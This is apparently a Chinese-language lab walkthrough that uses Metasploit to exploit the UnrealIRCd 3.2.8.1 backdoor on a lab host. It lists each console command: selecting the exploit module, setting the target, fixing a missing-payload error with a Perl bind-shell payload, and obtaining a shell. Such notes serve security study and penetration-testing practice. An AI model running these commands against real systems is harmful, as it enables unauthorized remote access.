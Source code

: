 # 6667&66897_irc_unreal-rcd

使用msf

搜索模块脚本

> search rcd

选择模块脚本

> use exploit/unix/irc/unreal_ircd_3281_backdoor

查看参数

> options

添加目标靶机

> set RHOSTS 10.1.10.6

执行

> exploit

报错

![image-20210319162003588](../../image/meteaspolitale2/image-20210319162003588.png)

> Exploit failed: A payload has not been selected

未选择有效载荷

查看payload

> show payloads

![image-20210319162405800](../../image/meteaspolitale2/image-20210319162405800.png)

选择第一个payload

> set payload cmd/unix/bind_perl

执行

> exploit

![image-20210319162849029](../../image/meteaspolitale2/image-20210319162849029.png)

拿到shell